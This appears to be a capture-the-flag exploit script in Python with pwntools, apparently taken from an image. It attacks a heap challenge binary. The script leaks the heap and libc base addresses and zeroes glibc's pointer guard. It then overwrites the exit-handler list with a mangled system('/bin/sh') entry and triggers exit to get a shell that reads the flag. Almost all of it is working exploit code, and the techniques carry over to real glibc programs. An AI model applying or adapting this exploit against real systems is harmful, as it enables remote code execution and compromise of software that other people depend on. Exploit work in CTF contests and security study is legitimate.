 ```python
# put chunk into hauptkeller->elements
create_neben(neben_size - 1)

for _ in range(0x40 - 8):
    pop_haupt()

# leak GC heap base address
gc_heap_base = sum([(pop_haupt() << (i * 8)) for i in range(7, -1, -1)]) - 0x11fc0
libc_base = gc_heap_base + 0x53000
print(f"gc_heap_base = {gc_heap_base:#x}")
print(f"libc_base = {libc_base:#x}")

def overwrite_neben_elem_ptr(new_addr: int):
    for b in new_addr.to_bytes(8, "little"):
        push_haupt(b)

# overwrite neben->elements with address of pointer guard
pointer_guard_addr = gc_heap_base + 0x50740 + 0x30
print(f"pointer_guard_addr = {pointer_guard_addr:#x}")
overwrite_neben_elem_ptr(pointer_guard_addr)

# zero out pointer guard
for _ in range(8):
    push_neben(0)

# overwrite neben->elements with address of &__exit_funcs[0]->fns[0]
exit_funcs_addr = libc_base + 0x204fd0
for _ in range(8):
    pop_haupt()
overwrite_neben_elem_ptr(exit_funcs_addr)

# overwrite benutzt und frei
for b in flat(
    p64(0),
    p64(0x100),
):
    push_haupt(b)

def rotate_left(num, rotate_by, bit_size=32):
    """ following function is presented by out lord and saviour ChatGPT """
    rotate_by %= bit_size  # Ensure rotation value is within the bit size
    return ((num << rotate_by) | (num >> (bit_size - rotate_by))) & ((1 << bit_size) - 1)

def mangle_ptr(ptr, ptr_guard):
    return rotate_left(ptr ^ ptr_guard, 17, 64)

# overwrite exit function with system("/bin/sh")
system = libc_base + 0x58740
bin_sh = libc_base + 0x1cb42f
exit_fn_payload = flat(
    p64(4),
    p64(mangle_ptr(system, 0)),
    p64(bin_sh),
)
for b in exit_fn_payload:
    push_neben(b)

# trigger RCE
do_exit()

p.sendline(b"cat flag")

p.interactive()
```